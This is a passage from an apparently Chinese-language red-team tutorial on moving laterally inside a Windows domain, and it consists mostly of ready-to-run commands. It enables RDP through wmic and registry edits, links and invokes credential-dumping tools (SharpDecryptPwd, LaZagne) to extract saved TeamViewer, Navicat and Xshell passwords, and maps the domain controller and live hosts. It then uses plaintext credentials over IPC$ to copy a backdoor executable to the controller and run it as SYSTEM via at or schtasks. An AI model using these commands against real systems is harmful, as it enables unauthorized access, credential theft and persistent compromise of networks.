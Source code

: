 wmic /namespace:\\root\\cimv2\\terminalservices path win32\_terminalservicesetting where (\_\_CLASS != "") call setallowtsconnections 1  
wmic /namespace:\\root\\cimv2\\terminalservices path win32\_tsgeneralsetting where (TerminalName ='RDP-Tcp') call setuserauthenticationrequired 1  
reg add "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server" /v fSingleSessionPerUser /t REG\_DWORD /d 0 /f  
net start TermService

## 1.2收集第三方登录凭证收集：

SharpDecryptPwd：  
https://github.com/uknowsec/SharpDecryptPwd/raw/master/SharpDecryptPwd.exe  
TeamViewer :SharpDecryptPwd.exe -TeamViewer  
Navicat: SharpDecryptPwd.exe -NavicatCrypto  
Xshell：SharpDecryptPwd.exe -Xmangager -p SessionPath -s username+sid(whoami /user)  
laZagne ：  
https://github.com/ethicalhackeragnidhra/LaZagne/archive/2.3.1.zip  
使用方法：laZagne.exe all

我们用上述命令简单收集计算机基本信息：  
Ipconfig /all 根据DNS后缀判断是否有域  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-5bbb2630dfc20f8bd2b72173907a52c0.png)  
Net view /domain 判断是否存在域  
确定域控的ip地址：  
net time /domain  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-dae9dc3509f855a54f2aebeb1fbbac37.png)  
然后通过nslookup或ping确定其域控ip:  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-28eed488ade5bd6840c8d6b9817fb6ec.png)  
确定当域内存活主机：  
for /L %I in (1,1,256) DO @ping -w 1 -l 1 192.168.202.%I | findstr “TTL=”

# 二、使用明文传递进行内网横向移动

## 2.1Windows server 2008 使用自带的at命令

使用明文密码登录到域控，需要135端口开启：  
Net use \\192.168.202.148\\ipc$ password /user:test\\administrator  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-6b5a0a24242d25886ddd0e25f3888a7a.png)  
把后门复制到域控c盘，at新建定时作业：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-f6cb22f3506e96a11ed8adc0c8bd5751.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-a66e5d4e802a3a913e68d572adf5b3dd.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/1630311910-ed9ffca1d15d5e7de6a848b2f8964bf9.png)

Windows server 2012及以上使用schtasks命令  
Schtasks /create /s 192.168.202.148 /ru “SYSTEM” /tn executefile /sc DAILY /tr c:/h4.exe /F  
Schtasks /run /s 192.168.202.148 /tn executefile /i  
Schtasks /delete /s 192.168.202.148 /tn executefile /f

